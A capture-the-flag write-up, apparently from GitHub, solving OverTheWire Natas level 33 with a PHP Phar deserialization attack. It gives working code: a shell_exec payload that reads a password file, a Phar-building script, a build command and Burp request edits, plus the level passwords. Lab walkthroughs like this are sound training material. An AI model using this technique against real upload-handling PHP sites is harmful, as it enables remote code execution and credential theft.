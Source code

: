 # Natas CTF Solutions  

## Natas Level 33  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit **PHP Object Injection** using a **Phar deserialization attack** to execute arbitrary code and extract the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas33.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas33`  
- **Password:** Use the password from Natas Level 32:  
```
2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ
```  

![Home_Page](https://github.com/user-attachments/assets/e5b76c2c-2575-42ff-8aa7-9fbefaf6b1f0)

---

### **Step 3: Review the Source Code**  
The source code shows that the website accepts file uploads.  
The challenge is to create a **malicious PHP file** and use a **Phar deserialization attack** to execute arbitrary code.  

![Source_Code](https://github.com/user-attachments/assets/dce46bae-3283-4428-be7b-cc16211b03e7)

---

### **Step 4: Create a PHP File to Read the Password**  
Create a file named `pwn.php` with the following code:  

```php
<?php 
echo shell_exec('cat /etc/natas_webpass/natas34'); 
?>
```  

✅ **Explanation:**  
- `shell_exec()` → Executes the `cat` command to read the password file.  

---

### **Step 5: Create a `test.php` File for Phar Deserialization**  
Create a file named `test.php`:  

```php
<?php
class Executor {
    private $filename = "pwn.php"; 
    private $signature = True;
    private $init = false;
}

$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString("test.txt", 'test');
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$o = new Executor();
$phar->setMetadata($o);
$phar->stopBuffering();
?>
```

✅ **Explanation:**  
- This code creates a **Phar archive** with serialized metadata.  
- The `filename` is set to `pwn.php`, which allows for execution.  
- Phar deserialization allows loading the serialized object and executing commands.  

---

### **Step 6: Generate the Phar File**  
Run the following command to create the `test.phar` file:  

```bash
php -d phar.readonly=false test.php
```  

✅ **Explanation:**  
- `-d phar.readonly=false` → Disables read-only mode to create the Phar file.  

---

### **Step 7: Upload the PHP and Phar Files**  
1. Upload **pwn.php** using the file upload option.  
2. Use **Burp Suite** to capture the upload request.  
3. Rename the file to `pwn.php` in the request and forward it.  

![BurpSuite](https://github.com/user-attachments/assets/30177439-23e6-48c6-8a08-f16a20ad99f1)

---

### **Step 8: Upload the Phar File and Modify the Request**  
1. Upload `test.phar` using the file upload option.  
2. Capture the request using **Burp Suite**.  

![image](https://github.com/user-attachments/assets/0b41ace1-7125-4bc5-9cfc-797fd75e19df)

3. In **Repeater**, modify the request to use:  

```http
phar://test.phar/test.txt
```  

4. Send the request — the password will be printed!  

![Phar_Upload](https://github.com/user-attachments/assets/c1b1051e-53ea-4a6a-acd1-d12247aed037)

---

### **✅ Password for Natas Level 34**  
```
j4O7Q7Q5er5XFRCepmyXJaWCSIrslCJY
```

---

## 💡 **Lessons Learned**  
✔️ **Phar Deserialization:** Phar archives allow serialization of metadata, which can lead to command execution if improperly handled.  
✔️ **Command Injection:** Combining file upload and deserialization can lead to RCE (Remote Code Execution).  
✔️ **Burp Suite Manipulation:** Intercepting and modifying HTTP requests allows for bypassing security checks.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 4 – PHP File Upload | ![BurpSuite](https://github.com/user-attachments/assets/30177439-23e6-48c6-8a08-f16a20ad99f1) |  
| Step 8 – Phar Exploit | ![Phar_Upload](https://github.com/user-attachments/assets/c1b1051e-53ea-4a6a-acd1-d12247aed037) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 34**:  
👉 [http://natas34.natas.labs.overthewire.org](http://natas34.natas.labs.overthewire.org)  

---

🔥 Phar deserialization for the win! Keep going — you're making great progress! 😎
